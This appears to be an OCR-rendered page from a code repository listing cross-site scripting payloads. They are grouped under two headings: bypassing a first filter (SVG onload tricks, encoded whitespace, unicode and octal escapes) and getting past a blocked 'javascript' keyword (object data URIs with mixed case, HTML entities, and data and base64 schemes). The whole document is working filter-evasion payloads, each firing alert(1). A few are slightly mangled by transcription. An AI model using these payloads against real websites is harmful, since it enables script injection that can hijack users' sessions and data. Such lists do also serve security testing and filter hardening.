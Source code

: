 # **Payloads**

#### **Bypassing First Filter**

```javascript
\<svg//////onload=alert(1)>
```

```javascript
\<svg id=x;onload=alert(1)>
```

```javascript
\<svg id=\`x\`onload=alert(1)>
```

```javascript
\<svg%09onload=alert(1)>
```

```javascript
\<svg onload%09=alert(1)>
```

```javascript
\<svg%09onload%20=alert(1)>
```

```javascript
\<svg onload%09%20%28%2C%3B=alert(1)>
```

```javascript
\<svg onload+0B=alert(1)>
```

```javascript
\<script>\u0061lert(1)\</script>
```

```javascript
\<script>\u0061\u006c\u0065\u0072\u0074(1)\</script>
```

```javascript
\<img src=x onerror="\u0061lert"/>
```

```javascript
\<img src=x onerror="eval('\141lert(1)')"/>
```

```javascript
\<img src=x onerror="eval('\x61lert(1)')"/>
```

#### **Javascript Keyword is blocked**

```javascript
\<object data="JaVaScRiPt:alert(1)">
```

```javascript
\<object data="javascript\&colon;alert(1)">
```

```javascript
\<object data="java &#x20;&#x20;script:alert(1)">
```

```javascript
\<object data="javascript\&#x003A;alert(1)">
```

```javascript
\<object data="javascript\&#58;alert(1)">
```

```javascript
\<object data="\&#x6A;avascript;alert(1)">
```

```javascript
\<object data="\&#x6A;\&#x61;\&#x76;\&#x61;\&#x73;\&#x63;\&#x72;\&#x69;\&#x70;74;\&#x3A;alert(1)">
```

```javascript
\<object data="data:text/html,\<script>alert(1)\</script>">
```

```javascript
\<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```
